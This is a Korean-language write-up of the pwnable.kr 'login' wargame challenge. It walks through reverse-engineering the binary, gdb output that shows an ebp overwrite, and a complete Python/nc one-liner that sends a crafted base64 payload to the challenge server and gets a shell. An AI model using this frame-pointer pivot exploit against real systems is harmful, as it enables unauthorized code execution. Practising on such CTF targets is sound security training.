



## 문제



50점 문제

## 풀이

아이다로 열어서 main 함수를 보면


Base64Decode 함수를 거쳐서 그 글자가 12글자를 넘지 않았을 때,
memcpy 함수와 auth 함수를 실행할 수 있다.

auth 함수를 보면



위에 calc_md5 함수가 있고 f87cd601aa7fedca99018a8be88eda34가 있으니
base64decode과 calc_md5를 거친 문자열이 저 해쉬값과 같게 하면
문제가 풀릴 것 같다.

```console
$ ./login
Authenticate : 1
hash : 9b8c895608d18294f61b60b8240d240d
$ ./login
Authenticate : 1
hash : cdf692a9f758d869b6c9aeb2d8b58934
$ ./login
Authenticate : 1
hash : 4ed12d9a2e855dec61a9abe23d16493a
$
```

낚일뻔

마지막으로 correct 함수를 보면



offset input에 있는 값이 0xdeadbeef면 문제를 풀 수 있다.

```console
$ ./login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 125277e0a9ca4432b398e73ee31e0a22
Segmentation fault
$
```

input의 크기가 12바이트여서 12바이트에 맞게
AAAABBBBCCCC를 인코드한 문자열을 입력하면 segmentation fault가 뜬다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : QUFBQUJCQkJDQ0ND
hash : 2c840c4e550f24ed72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x08049424 in main ()
(gdb) i r
eax            0x0      0
ecx            0x32     50
edx            0x80da684        135112324
ebx            0x80481d0        134513104
esp            0xffffd450       0xffffd450
ebp            0x43434343       0x43434343
esi            0x0      0
edi            0x811b00c        135376908
eip            0x8049424        0x8049424 <main+279>
eflags         0x210297 [ CF PF AF SF IF RF ID ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
(gdb)
```

확인해보면 12바이트 중 마지막 4바이트의 값대로 ebp가 변조되어있다.
처음 4바이트 값은 0xdeadbeef로 놔둬야하고,
가운데 4바이트가 남게 되는데 여기에는 correct 함수의 주소를,
마지막 4바이트는 바로 가운데 4바이트가 있는 주소를 가리키도록 하면 된다.

12바이트가 있는 input의 주소는 0x0811eb40이고,
correct 함수의 주소는 0x0804925f다.

주의해야할 점이 가운데 4바이트의 주소가 0x0811eb44라고 해서,
ebp 값을 0x0811eb44로 변조하면 0x0811eb40이 가리키는 주소,
즉 자신이 있는 주소로 점프하게 된다.

```c-objdump
(gdb) r
Starting program: /root/Desktop/login
Authenticate : 776t3l_SBAhE6xEI
hash : 2c840c4e550f243d72f4a4ce74a78371

Program received signal SEGSEGV, Segmentation fault.
0x0811eb44 in input ()
(gdb)
```

이렇게 input 영역을 실행하려고 하다가 segmentation fault를 뿜는다.

풀이

```sh
(python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
```

```console
$ (python -c "import base64;print base64.encodestring('\xef\xbe\xad\xde'+'\x5f\x92\x04\x08'+'\x40\xeb\x11\x08')"; cat) | nc pwnable.kr 9003
Authenticate : hash : 00cb6656e633c565de02446c0b6a9601
Congratulation! you ar good
id
uid=1009(login) gid=1009(login) groups=1009(login)
```
